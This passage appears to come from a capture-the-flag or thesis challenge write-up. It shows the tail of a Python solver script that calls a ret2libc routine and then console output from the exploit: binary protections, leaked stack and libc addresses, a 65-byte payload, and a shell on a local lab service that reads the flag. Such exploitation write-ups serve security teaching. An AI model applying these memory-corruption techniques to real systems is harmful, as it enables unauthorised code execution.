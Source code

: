 ```python
    r   = process(fname)
  else:
    r   = remote("0.0.0.0", 1337)

  ret2libc(r, prompt, offset)

if __name__ == "__main__":
  pwn()
```

### PoC 🏁

```console
➜  challenge git:(main) ✗ python solver.py 
[*] '/home/w3th4nds/github/Thesis/challenge5/challenge/challenge5'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./.glibc/'
[*] Loading gadgets for '/home/w3th4nds/github/Thesis/challenge5/challenge/challenge5'
[*] b'/home/w3th4nds/github/Thesis/challenge5/challenge/.glibc/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 0.0.0.0 on port 1337: Done
[*] Stack address @ 0x7ffcaf75b470
[*] Libc base     @ 0x7f884259f000
[*] One byte:    0x70
[*] Len payload: 65
[*] Switching to interactive mode
 $ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ cat flag.txt
FLAG{0n3_byt3_cl0s3r_2_v1ct0ry}
$ 
[*] Interrupted
[*] Closed connection to 0.0.0.0 port 1337
```
